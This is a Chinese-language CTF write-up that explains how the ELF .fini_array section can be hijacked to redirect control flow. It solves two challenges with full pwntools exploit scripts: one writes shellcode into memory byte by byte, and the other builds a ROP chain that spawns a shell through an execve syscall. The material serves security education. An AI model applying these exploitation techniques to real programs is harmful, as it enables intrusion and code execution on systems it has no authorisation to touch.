

fini\_array 劫持

- - -

# fini\_array 劫持

## 背景知识

程序的启动流程如下图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125150801-7a17cfde-bb50-1.png)  
main 函数不是程序的起点，text 段的起点是\_start 函数，\_start 函数调用**libc\_start\_main 完成启动和退出  
main 函数的返回地址就是** libc\_start\_main

**libc\_csu\_fini 函数是 main 函数退出返回到** libc\_start\_main 后，通过 \_\_libc\_start\_main 调用的。具体看看函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125151024-cf21dcc2-bb50-1.png)  
这里可以看到**libc\_start\_main 的三个比较重要的参数  
rdi --> main  
rcx -->** libc\_csu\_init  
r8 --> \_\_libc\_csu\_fini

**libc\_csu\_init 在 main 开始前执行 ,** libc\_csu\_fini 在 main 执行完后执行  
所以这里我们可以利用修改 \_\_libc\_csu\_fini 的数组来控制程序执行流

\_fini\_array（或 \_\_fini\_array）是一个特殊的 ELF 符号数组，用于存储在程序或共享对象的终止（清理）阶段将要执行的终止函数的地址。  
在 ELF 二进制文件中，除了存储初始化函数数组（.init\_array）之外，还可以包含一个终止函数数组（.fini\_array）。这些函数会在程序或共享对象退出或终止时以相反的顺序执行，用于进行资源清理、关闭文件描述符、释放内存等操作。  
\_fini\_array 符号是由链接器在将目标文件或库连接到可执行文件时生成的。它指向一个由终止函数地址组成的数组。运行时的链接器/加载器会在程序或共享对象终止时依次调用这些函数，以完成清理工作。  
类似于\_init\_array，\_fini\_array 是 ELF 文件中的一部分，属于特殊的节（section）之一。这些特殊节在程序执行过程中具有特定的目的和执行顺序。其他常见的特殊节包括.text（包含程序指令）和.data（包含已初始化的全局和静态数据）。

所以我们可以劫持 fini\_array 数组来劫持程序执行流

## xor - round 14

### 思路

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125151057-e33acf7a-bb50-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125151103-e66775e0-bb50-1.png)  
什么保护都没开，动态编译

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125151116-ee66b954-bb50-1.png)  
这里就是输入一个地址，和一个值，然后进行 xorByteWithAddress 操作

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125151125-f3e96908-bb50-1.png)  
这里可以看到就是取输入的地址的值去和输入的数值进行疑惑，然后让 flag 的值加 1

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125151132-f80b4510-bb50-1.png)  
这里 flag 一开始的值是 0  
加一后就没法继续去进行循环，所以需要先利用异或把 flag 变成负数，然后就可以一直循环

```plain
def write_value(addr, value): 
    p.sendlineafter(b"addr: ", addr) 
    p.sendlineafter(b"value: ", value) 

write_value(b"0x600bcf", b"0xff")  // flag : 0x600BCC
```

这里是利用整数溢出来把 flag 修改成负数的  
flag 是 int 类型，最大值为 2147483647 也就是 0x7fffffff，所以我们只需要修改 最前面的一个字节大于 0x7f 就能使得 flag 为负数，这里为了循环足够多次，修改为 0xff

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125151332-3f33217e-bb51-1.png)  
然后就可以去修改 \_\_fini\_array 了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125151344-468863da-bb51-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125151349-49b35e2a-bb51-1.png)  
我们去修改 0x600970 地址即可，这里是因为可以无限任意写，所以就先去写一个 bss 段的地址，然后在地址上布置好 shellcode，最后退出执行即可

```plain
write_value(b"0x600970", b"0x70") 
write_value(b"0x600971", b"0x0a")   
write_value(b"0x600972", b"0x20")
```

修改前：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125151439-67188710-bb51-1.png)  
修改后：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125151448-6cea491c-bb51-1.png)  
然后一位一位写 shellcode

```plain
shellcode = asm(shellcraft.sh()) 
for i in range(len(shellcode)): 
    write_value(hex(0x600c60+i), hex(shellcode[i]))
```

然后在 0x600c60 处逐字节写入 shellcode

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125151505-76fe0100-bb51-1.png)  
再去修改 flag 为正，然后退出程序就可以执行 shellcode 了

```plain
write_value(b"0x600bcf", b"0xff")
```

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')

def write_value(addr, value): 
    p.sendlineafter(b"addr: ", addr) 
    p.sendlineafter(b"value: ", value) 

write_value(b"0x600bcf", b"0xff") 
write_value(b"0x600970", b"0x70") 
write_value(b"0x600971", b"0x0a")   
write_value(b"0x600972", b"0x20") 

shellcode = asm(shellcraft.sh()) 
for i in range(len(shellcode)): 
    write_value(hex(0x600c60+i), hex(shellcode[i])) 

write_value(b"0x600bcf", b"0xff") 
p.interactive()
```

## Memory\_Monster\_II

### 思路

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125151659-bad8336e-bb51-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125151705-be65c9f6-bb51-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125151710-c142a78e-bb51-1.png)  
应该是去掉符号表了，然后是静态编译的  
这里看起来就是第一次写入一个地址，然后在地址处再写入，所以应该是任意地址写  
静态编译时先执行 fini\_array\[1\]，再执行 fini\_array\[0\]  
所以这里我们就可以这样利用  
fini\_array\[0\]:\_\_libc\_csu\_fini  
fini\_array\[1\]:main 函数地址

然后将 fini\_array\[0\]改成 leave\_ret,fini\_array\[1\]改成 ret  
这样执行完 fini\_array\[1\]的 main 函数后就会执行 fini\_array\[0\]的 leave\_ret  
然后就沿着 fini\_array\[1\]往下执行了，fini\_array\[1\]这时候为 ret，就继续执行 fini\_array\[2\]

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125151756-dc77def2-bb51-1.png)

```plain
write(fini_array,p64(libc_csu_fini)+p64(main_addr))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125151807-e3433a92-bb51-1.png)  
然后程序就会循环了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125152250-8c02fe92-bb52-1.png)

```plain
write(esp,p64(rax))
write(esp+8,p64(0x3b)) 
write(esp+16,p64(rdi)) 
write(esp+24,p64(bin_sh))
write(esp+32,p64(rsi))
write(esp+40,p64(0))
write(esp+48,p64(rdx))
write(esp+56,p64(0))
write(esp+64,p64(syscall))
```

然后在 fini\_array\[2\]处构造 rop 即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125152723-2e71c3b6-bb53-1.png)

```plain
write(fini_array,p64(leave_ret)+p64(ret))
```

然后结束程序循环，进入 ROP

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125152903-6a320ca8-bb53-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240125152914-710db19e-bb53-1.png)

### exp

```plain
#coding:utf-8
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')

syscall = 0x0402514
rax = 0x0448fcc
rdx = 0x0448415
rsi = 0x0406f80
rdi = 0x0401746
bin_sh = 0x0492895

fini_array = 0x04B80B0
main_addr  = 0x0401C1D
libc_csu_fini = 0x0402CB0
leave_ret = 0x0401CF3

esp = 0x04B80C0
ret = 0x0401016

def duan():
    gdb.attach(p)
    pause()

def write(addr,data):
    p.sendafter('addr:',p64(addr))
    p.sendafter('data:',data)


#使程序循环跑起来       fini_array[0]   fini_array[1]
write(fini_array,p64(libc_csu_fini)+p64(main_addr))


#duan()
#布置栈上的内容为
#syscall('/bin/sh\x00',0,0)
write(esp,p64(rax))
write(esp+8,p64(0x3b)) 
write(esp+16,p64(rdi)) 
write(esp+24,p64(bin_sh))
write(esp+32,p64(rsi))
write(esp+40,p64(0))
write(esp+48,p64(rdx))
write(esp+56,p64(0))
write(esp+64,p64(syscall))

#结束程序循环，进入 ROP
write(fini_array,p64(leave_ret)+p64(ret))
'''
'''
p.interactive()
```

xor.zip (0.91 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240125153445-3607447e-bb54-1.zip)

Memory Monster II.zip (0.308 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240125153953-edeb4bd0-bb54-1.zip)
